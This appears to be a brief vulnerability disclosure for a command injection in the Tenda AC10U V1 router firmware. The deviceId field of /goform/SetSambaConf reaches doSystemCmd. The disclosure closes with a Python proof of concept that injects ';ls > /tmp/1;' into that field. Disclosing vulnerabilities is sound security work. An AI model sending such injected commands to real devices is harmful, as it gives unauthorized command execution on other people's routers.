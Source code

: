 # command injection

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a command injection in httpd/formSetSambaConf

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](19.png)

get value from deviceId ,then call doSystemCmd, can execute arbitrary command.




## POC
```
url = "http://192.168.1.13/goform/SetSambaConf"
payload = ';ls > /tmp/1;'

r = requests.post(url, data={'deviceId': payload})
``` 
